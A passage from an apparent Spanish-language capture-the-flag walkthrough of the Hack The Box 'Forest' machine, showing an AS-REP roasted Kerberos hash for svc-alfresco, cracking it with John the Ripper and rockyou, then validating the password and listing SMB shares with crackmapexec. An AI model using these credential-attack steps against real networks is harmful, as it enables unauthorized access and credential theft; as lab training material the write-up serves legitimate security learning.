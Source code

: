 ```bash
$krb5asrep$23$svc-alfresco@HTB.LOCAL:2791851ed73b22c9b8667f3e2d5bf4a4$0a3f5555b3752d2ab...
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```
Excelente, obtuvimos un **TGT** que parece pertenecer al **usuario svc-alfresco**.

Ahora solamente debemos descifrarlo.

Copia y pega el hash completo en un archivo y con **JohnTheRipper**, descifra el hash:
```bash
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 SSE2 4x])
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)     
1g 0:00:00:04 DONE (2024-10-10 13:24) 0.2070g/s 845913p/s 845913c/s 845913C/s s4161985..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Muy bien, eso fue bastante rápido.

<br>

<h3 id="WMI">Probando Contraseña con crackmapexec y Ganando Acceso con Evil-WinRM</h3>

Como ya tenemos la contraseña, vamos a comprobar si nos puede servir utilizando **crackmapexec**:
```bash
crackmapexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\svc-alfresco:s3rvice
```
Nos mostró un **+**, esto quiere decir, que no nos da un acceso como tal a la máquina, pero sí podemos entrar a enumerar el **servicio SMB**.

Comprobémoslo:
```bash
crackmapexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice' --shares
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\svc-alfresco:s3rvice 
SMB         10.10.10.161    445    FOREST           [+] Enumerated shares
SMB         10.10.10.161    445    FOREST           Share           Permissions     Remark
SMB         10.10.10.161    445    FOREST           -----           -----------     ------
SMB         10.10.10.161    445    FOREST           ADMIN$                          Remote Admin
SMB         10.10.10.161    445    FOREST           C$                              Default share
SMB         10.10.10.161    445    FOREST           IPC$                            Remote IPC
SMB         10.10.10.161    445    FOREST           NETLOGON        READ            Logon server share 
SMB         10.10.10.161    445    FOREST           SYSVOL          READ            Logon server share
```
La idea sería entrar e investigar si encontramos algo en el **NETLOGON o en SYSVOL**, pero te adelanto que no hay nada interesante.
